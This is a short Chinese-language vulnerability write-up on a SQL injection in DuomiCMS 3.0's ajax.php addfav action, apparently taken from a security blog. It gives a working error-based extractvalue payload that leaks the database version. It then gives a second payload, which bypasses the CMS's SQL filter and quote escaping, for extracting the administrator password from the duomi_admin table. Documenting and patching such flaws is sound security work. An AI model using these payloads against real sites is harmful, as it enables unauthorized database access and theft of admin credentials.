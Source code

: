 #### 漏洞详情： ####
 payload ：

    ajax.php?action=addfav&id=1&uid=1 and extractvalue(1,concat_ws(0x3A,0x3A,version()))

![](DuomiCMS3.0SQL注入/20180930142726-e62f0396-c479-1.png)

但是要想爆出有用的数据，这里还要绕过 duomiphp/sql.class.php 文件的SQL检测规则以及全局变量的 _RunMagicQuotes 函数的转义。这里直接给出我测试成功的 payload ：
    
    http://localhost//duomiphp/ajax.php?action=addfav&id=1&uid=10101 and `'`.``.vid and extractvalue(1,concat_ws(0x3A,0x3A,(select`password` from`duomi_admin` limit 1))) and `'`.``.vid
![](DuomiCMS3.0SQL注入/20180930142732-e978a926-c479-1.png)

### 参考链接 ###
https://xz.aliyun.com/t/2828#toc-2